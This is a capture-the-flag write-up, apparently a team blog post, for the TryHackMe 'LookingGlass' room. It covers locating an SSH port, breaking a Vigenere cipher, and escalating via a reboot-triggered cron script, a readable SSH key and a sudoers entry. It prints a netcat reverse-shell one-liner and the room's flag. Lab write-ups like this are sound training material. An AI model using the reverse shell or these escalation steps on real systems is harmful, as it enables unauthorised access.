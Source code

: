 ```yaml
---
title: LookingGlass
layout: post
author: Bit Criminals Team
date: 2021-06-03 17:02:00 +0530
type: Pentesting
difficulty: Medium
prompt: https://tryhackme.com/room/lookingglass
---
```


First, we ran the nmap scan and were amazed to see  thousands of ssh ports in the range of 9000-13999.When I opened a random port say 12000 in my box the response LOWER came while for 
13000 the response HIGHER came.And this response was random for everyone.After a few discussions we understood that the port we have to locate must be in between the ports giving HIGHER and 
LOWER response.HIGHER and LOWER were references to the next port we need to connect. So if we were to receive the message higher, we would actually connect to a lower port.
Now, you can always do this with a bash script but none of us are good at bash so we manually located the ssh port by hit and trial with the command

ssh <boxip> -p <PORT> 

and then eliminating the PORTs 100s at a time at first,then I found that 12300 gave lower and 12400 gave higher and thus my port was in between this.So,I
started eliminating 10s of port a time and finally I found my port which was 12363 in mycase.

![](/images/Dr.DONN4/mirror1.png)

So,we found a poem first I thought it to be a substitution cipher but it was not.It was a vigenere cipher.

then, we used this online site to bruteforce the cipher key https://www.boxentriq.com/code-breaking/vigenere-cipher. And, then used the key to get the secret.
And, we get the username and password for ssh login.

Then, we got into the jabberwock user and there we found the user flag but mirrored.In this box we found a .sh file and on sudo -l we found a /sbin/reboot Path.
Then, we got into the /etc/crontab file to see that that he .sh script is actually ran by another user named tweedledum.After, few searching and discussions we understood that 
the bash file in ran whenever the system is reboot.So,basically if we give a reverse shell into the bash file and then,listen it in our local port and then, reboot the jabberwock machine we may found the 
tweedledum user.

we used the rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f  reverse shell and changed the ip and the port and then ran sudo reboot.After a few minutes of wait we got the tweedledum 
machine.

![](/images/Dr.DONN4/mirror2.png)

Into the tweedledum user we found a hash in humptydumpty.txt file.

![](/images/Dr.DONN4/mirror3.png) 


So now we logged in as humtydumpty user.After finding a lot we came to see that the .ssh folder of alice user is readable to our current user.
We found the id_rsa key using find command and hence we can now login through ssh as alice..

![](/images/D4rkDemian/lookingglass.png)

After spending lot of time in user Alice we got nothing but atlast we got our path to root in */etc/sudoers.d/* directory which contained different text files having their names as of the user's..

So on viewing Alice we came to know that user Alice can use /bin/bash as a root using the host name as **ssalg-gnikool** .

![](/images/D4rkDemian/lookingglass1.png)

And there we got our root flag since it is inverted hence we reversed and so finally the box is over ..

![](/images/D4rkDemian/lookingglass3.png)

```
thn{bc2337b6f97d057b01da718ced6ead3f}
```


